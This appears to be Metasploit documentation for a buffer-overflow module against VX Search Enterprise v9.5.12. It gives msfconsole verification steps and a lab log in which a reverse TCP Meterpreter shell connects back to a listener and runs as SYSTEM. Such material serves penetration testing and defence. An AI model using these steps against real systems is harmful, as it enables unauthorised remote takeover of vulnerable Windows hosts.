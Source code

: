 ## Vulnerable Application

[VX Search Enterprise](www.vxsearch.com) versions up to v9.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [VX Search Enterprise](http://www.vxsearch.com/setups/vxsearchent_setup_v9.5.12.exe).

## Verification Steps
  1. Install a vulnerable VX Search Enterprise
  2. Start `VX Search Enterprise` service
  3. Start `VX Search Enterprise` client application
  4. Navigate to `Tools` > `VX Search Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/vxsrchs_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

### VX Search Enterprise v9.5.12 on Windows 7 SP1

```
msf exploit(vxsrchs_bof) > show options 

Module options (exploit/windows/http/vxsrchs_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    172.16.0.18      yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.20      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   VX Search Enterprise v9.5.12


msf exploit(vxsrchs_bof) > exploit 

[*] Started reverse TCP handler on 172.16.0.20:4444 
[*] Sending request...
[*] Sending stage (958324 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-05-18 16:10:58 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
